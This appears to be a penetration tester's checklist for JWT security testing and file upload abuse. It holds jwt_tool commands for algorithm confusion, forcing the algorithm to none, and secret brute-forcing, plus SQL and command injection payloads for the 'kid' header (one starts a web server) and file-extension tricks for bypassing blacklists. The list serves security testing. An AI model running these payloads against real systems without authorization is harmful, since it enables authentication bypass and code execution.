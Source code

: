 >***[[JWT Security Testing]]***

- [ ] Edit the JWT with <span style="color:#ff0000">another User ID / Email</span>
- [ ] <span style="color:#06ea6c">Sensitive Data Exposure</span>
- [ ] <span style="color:#ff0000">null signature</span> `python3 jwt_tool.py JWT_HERE -X n`
- [ ] Multiple <span style="color:#ff0000">JWT</span> test cases  
	`python3 jwt_tool.py -t https://api.example.com/api/working_endpoint -rh "Content-Type: application/json" -rh "Authorization: Bearer [JWT]" -M at`
- [ ] Test <span style="color:#ff0000">JWT secret brute-forcing</span>
	`python3 jwt_tool.py <JWT> -C -d <Wordlist>`
- [ ] Abusing <span style="color:#ff0000">JWT Public Keys Without knowing the Public Key</span>
	`https://github.com/silentsignal/rsa_sign2n`
- [ ] <span style="color:#ff0000">Test if algorithm could be changed</span>
	- Change algorithm to None `python3 jwt_tool.py <JWT> -X a`
	- Change algorithm from RS256 to HS256 
	  `python3 jwt_tool.py <JWT> -S hs256 -k public.pem`
	- algorithm confusion with no exposed key -> `docker run --rm -it portswigger/sig2n <token1> <token2>`
- [ ] Test if <span style="color:#ff0000">signature is being validated</span> 
	 `python3 jwt_tool.py <JWT> -I -pc <Key> -pv <Value>`
- [ ] <span style="color:#06ea6c">Test token expiration time</span> (TTL, RTTL) -> change `exp:`
- [ ] Check for <span style="color:#ff0000">Injection in "kid" element </span>
	`python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""`
- [ ] <span style="color:#ff0000">SQL injection</span> in jwt header `admin' ORDER BY 1--`
- [ ] <span style="color:#ff0000">Command injection</span> `kid: key.crt; whoami && python -m SimpleHTTPServer 1337 &`
- [ ] Check that keys and secrets <span style="color:#06ea6c">are different between</span> ENVs

> ***[[File Upload Feature]] Abuse***

Reference:https://brutelogic.com.br/blog/file-upload-xss/

- [ ] Quick Analysis
    ```python
    -----------------------------------------------------------------
    upload.random123		   ---	To test if random file extensions can be uploaded.
    upload.php			       ---	try to upload a simple php file.
    upload.php.jpeg 		   --- 	To bypass the blacklist.
    upload.jpg.php 		     ---	To bypass the blacklist. 
    upload.php 			       ---	and Then Change the content type of the file to image or jpeg.
    upload.php*			       ---	version - 1 2 3 4 5 6 7.
    upload.PHP			       ---	To bypass The BlackList.
    upload.PhP			       ---	To bypass The BlackList.
    upload.pHp			       ---	To bypass The BlackList.
    upload.htaccess 		   --- 	By uploading this [jpg,png] files can be executed as php with milicious code within it.
    pixelFlood.jpg			   ---	To test againt the DOS.
    frameflood.gif			   ---	upload gif file with 10^10 Frames
    Malicious zTXT  		   --- 	upload UBER.jpg 
    Upload zip file			   ---	test againts Zip slip (only when file upload supports zip file)
    Check Overwrite Issue	 --- 	Upload file.txt and file.txt with different content and check if 2nd file.txt overwrites 1st file
    SVG to XSS			       ---	Check if you can upload SVG files and can turn them to cause XSS on the target app
    SQLi Via File upload	 ---	Try uploading `sleep(10)-- -.jpg` as file
    ----------------------------------------------------------------------
    ```
    